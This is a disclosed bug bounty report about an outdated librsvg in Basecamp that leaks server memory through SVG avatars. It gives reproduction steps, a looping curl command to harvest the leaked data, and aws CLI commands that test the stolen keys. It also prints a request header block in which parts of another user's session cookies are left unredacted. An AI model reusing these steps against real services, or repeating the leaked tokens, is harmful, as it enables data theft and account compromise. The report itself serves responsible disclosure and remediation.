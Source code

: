 # AWS keys and user cookie leakage via uninitialized memory leak in outdated librsvg version in Basecamp

## Report Details
- **Report ID**: 2107680
- **URL**: https://hackerone.com/reports/2107680
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-08-13T14:16:41.617Z
- **Disclosed**: 2023-09-21T15:17:24.982Z

## Reporter
- **Username**: neex
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
Basecamp supports uploading SVG pictures as avatars. Apparently, they are converted via an outdated librsvg version at Basecamp's servers. This version contains a vulnerability that allows leakage of the contents of an uninitialized memory block (that is, something is malloced, never initialized, and then used to build the preview image). Since it seems to be performed in the same unix process as the general request processing, it is possible for an attacker to steal sensitive data from this process, including basecamp configs (e.g., AWS keys) and requests of random users.

## Steps to reproduce

1. First, you must generate an image that triggers the vulnerability. To do so, you will need Python installed. Download the attached program F2597505 and run it like this: `python3 rsvgeb.py gen 260x260 --format bmp zalupa.png` (exactly like this). The result will be stored in the `zalupa.png` file (which is actually an SVG). The picture contains the exploit itself and carefully chosen SVG filters that make it possible to recover the original data regardless of later conversion artifacts.
2. Second, upload the resulting image as your avatar. Login to your Basecamp account, go to your profile (click on the circle image at the top left corner, then go to "Profile, password, ███"), there use the "Change your avatar button" and select the `zalupa.png` we generated earlier. Don't forget to click on the green button "Save my changes" at the bottom of the page.
3. After the avatar update, you will see the pixel image instead of the avatar. We'll use `rsvgeb.py` again to extract the information. However, the script uses ImageMagick to extract pixel data from PNG files, so you will need it installed *locally* (at the environment where the `rsvgeb.py` is ran). `apt install imagemagick -y` should be enough on Debian and Ubuntu systems. 
4. After installing ImageMagick, you must retrieve the public link to your avatar. To do this, click on your avatar with the right mouse button, and choose "Copy image address". After that, open the copied link in a new tab to follow the redirect. The link should change from something like `████` to something like `████████`. Copy the latter one.
5. Now, you need to modify the link. Replace the `.avif` extension with `.png`, and the filename (the part right before the extension) with the string `$RANDOM$RANDOM$RANDOM$RANDOM`. After that, insert the link as the `curl` argument into the following command:

     ```
     while true; do curl "████$RANDOM$RANDOM$RANDOM$RANDOM.png?v=1" | python3 rsvgeb.py recover 260x260 - | strings -n 10 | tee -a pizda_hui_govno.txt; done
     ```

    (note how the link looks; yours should also be like this except for the user id and the signed something part).
6. Execute the command. You will see fragments of memory from some Basecamp servers that will also accumulate in `pizda_hui_govno.txt`. Sometimes you will see trash or parts of the original SVG, but sometimes you will see fascinating pieces of information. Keep the script running for some time so you will get more sensitive memory fragments (I ran it for 48+ hours). Inspect `pizda_hui_govno.txt` to check what you have.

## Impact

Given the nature of the vulnerability, the attacker does not control which kind of information she will extract. However, due to the lack of isolation between the image converter process and the main Ruby on Rails application, the extracted info might be quite sensitive.

Seemingly, the most exciting fragment I came across included AWS keys and looked like this:

```
    ███
    ██████████
    ██████
    █████████
    -----END RSA PRIVATE KEY-----

s3_backup:
  access_key_id: ██████████
  secret_access_key: █████

sns:
  access_key_id: ███████
  secret_access_key: █████

active_record_encryption:
  primary_key: █████████
  deterministic_key: █████████
  key_derivation_salt: █████

new_relic:
  license_key: ██████
```

That is, apparently, a fragment of some internal Basecamp config. Other similar configs include:

```
production_s3_primary:
  service: S3
  access_key_id: ███
  secret_access_key: █████
  region: us-east-2
  bucket: ███
  upload:
    storage_class: INTELLIGENT_TIERING

production_s3_replica:
  service: S3
  access_key_id: ████████
  secret_access_key: ███
  region: us-west-2
  bucket: ████████
  upload:
    storage_class: ONEZONE_IA
```

I've checked that the keys actually work, but have not performed any post exploitation:

```
$ AWS_DEFAULT_REGION=us-east-2 AWS_ACCESS_KEY_ID=████ AWS_SECRET_ACCESS_KEY=██████ aws sts get-caller-identity
{
    "UserId": "██████",
    "Account": "██████████",
    "Arn": "arn:aws:iam::██████:user/bc3-storage"
}
$ AWS_DEFAULT_REGION=us-east-2 AWS_ACCESS_KEY_ID=████████ AWS_SECRET_ACCESS_KEY=██████████ aws s3 ls s3://███/
                           PRE ███████/
                           PRE ████████/
                           PRE ███/
                           PRE ██████/
                           PRE █████████/
                           PRE ████/
                           PRE ███████/
                           PRE ███/
                           PRE ███/
                           PRE █████/
                           PRE █████/
                           PRE █████/
█████████ ████████ ███████
██████ ████████ ██████
██████ ████████ █████
██████████ ██████ ██████
███ █████████ ██████████
██████████ ███████ █████████
███ ███████ █████████
... snip ...
```

Another thing that I was able to extract is fragments of queries of other users, including cookies (that is a random example):

```
X_REAL_IP: █████
X_FORWARDED_FOR: ████████, ███
HOST: ████████
X_QUEUE_START: 1690786808.173
CONNECTION: close
COOKIE: █████
█████████%██████%2BVxMClK5d1rjoLKbCyFnKab9lI2lZ9sLvGW%2BT60xsygpl6syYIfVHK73km9DT98ecq0JD68OBnI9EdzLcEdmI5%2BXr%2FuOZ5BeUMoX--kvDVySR7oaYSGdHy--RU8uCFyrq8mPCjEvyX38OA%3D%3D; _csrf_token=KHczIU3KBHe%2FJjVhpFWn48FJ2vtYha4YdwUvXdypO51h5iLa4XvkjqaX0XYtzy7fOJahGGN40mfq8GMEN0v1t0SqEnfJUY%2F7CY1mVVSs9EuAFK8wF4Wrh5jA9jk4sen8KDEDXq7sjAMjdnsLLzIjL0LYLG8P8%2FsZz2BHy95JB9JTSsyPleUI--MLV2RZiAHIJrVXv%2F--rQLRhEgWWYGfXxRmqL%2B%2Frw%3D%3D; authenticity_token=████; color_scheme=none; bc3_session_verification_token=0187762ee195d9bdbb1c; bc3_identity_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaHBCSTBqYXdFPSIsImV4cCI6bnVsbCwicHVyIjoiY29va2llLmJjM19pZGVudGl0eV9pZCJ9fQ%3D%3D--957bc8a13ea3ae13b00792f0fecaa58f046a791b
ACCEPT: application/json
X_REQUESTED_WITH: XMLHttpRequest
ACCEPT_LANGUAGE: de-DE,de;q=0.9
IF_NONE_MATCH: W/"77ae6ae7dd96d1bac74baed254a6ab62"
USER_AGENT: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.3 Safari/605.1.15
REFERER: █████
X_FETCH_TYPE: native
X_CSRF_TOKEN: ██████████
X_FORWARDED_PROTO: https
X_FORWARDED_PORT: 443
```

Also, there were some fragments of Ruby code:

```
def owner_id_before_type_cast();self.attribute_before_type_cast("owner_id");end;def organization_before_type_cast();self.attribute_before_type_cast("organization");end;def about_url_before_type_cast();self.attribute_before_type_cast("about_url");end;def client_id_before_type_cast();self.attribute_before_type_cast("client_id");end;def client_secret_before_type_cast();self.attribute_before_type_cast("client_secret");end;def redirect_uri_before_type_cast();self.attribute_before_type_cast("redirect_uri");end;def trusted_before_type_cast();self.attribute_before_type_cast("trusted");end;def scope_before_type_cast();self.attribute_before_type_cast("scope");end;def signing_secret_before_type_cast();self.attribute_before_type_cast("signing_secret");
```

## Mitigation

1. As the first and the easiest hotfix, I suggest updating the librsvg to the latest version. That will fix this particular bug.
2. Another possible quick-fix option would be to forbid uploading SVG avatars or to skip preview generation for them. Note that the previews are not generated for the SVG files anywhere except the avatars (e.g., in the "Docs & Files" section); thus, exploiting librsvg issues is impossible using these endpoints.
3. As a long-term solution, I suggest moving image preview generation to an isolated environment. If you would convert every image in another process inside a networkless docker, that would eliminate all the class of image converter-related issues.

## Attachments
- rsvgeb.py
